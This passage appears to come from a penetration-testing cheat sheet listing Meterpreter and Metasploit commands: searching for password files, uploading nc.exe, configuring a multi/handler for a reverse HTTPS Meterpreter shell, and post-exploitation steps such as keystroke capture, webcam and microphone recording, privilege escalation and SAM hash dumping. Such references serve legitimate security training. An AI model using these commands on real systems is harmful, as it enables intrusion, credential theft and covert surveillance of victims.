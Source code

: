         `getuid`

    -   Search for a file

        `search -f *pass*.txt`

    -   Upload a file

        `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`

    -   Download a file

        `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`

    -   Invoke a command shell from Meterpreter Shell

        `shell`

    -   Exit the meterpreter shell

        `exit`

-   Metasploit Exploit Multi Handler

    -   multi/handler to accept an incoming reverse\_https\_meterpreter

        `payload
        use exploit/multi/handler
        set PAYLOAD windows/meterpreter/reverse_https
        set LHOST $ip
        set LPORT 443
        exploit
        [*] Started HTTPS reverse handler on https://$ip:443/`

-   Building Your Own MSF Module

    -   `mkdir -p ~/.msf4/modules/exploits/linux/misc
        cd ~/.msf4/modules/exploits/linux/misc
        cp
        /usr/share/metasploitframework/modules/exploits/linux/misc/gld\_postfix.rb
        ./crossfire.rb
        nano crossfire.rb`

-   Post Exploitation with Metasploit - (available options depend on OS and Meterpreter Cababilities)

    -   `download` Download a file or directory
        `upload` Upload a file or directory
        `portfwd` Forward a local port to a remote service
        `route` View and modify the routing table
        `keyscan_start` Start capturing keystrokes
        `keyscan_stop` Stop capturing keystrokes
        `screenshot` Grab a screenshot of the interactive desktop
        `record_mic` Record audio from the default microphone for X seconds
        `webcam_snap` Take a snapshot from the specified webcam
        `getsystem` Attempt to elevate your privilege to that of local system.
        `hashdump` Dumps the contents of the SAM database

-   Meterpreter Post Exploitation Features
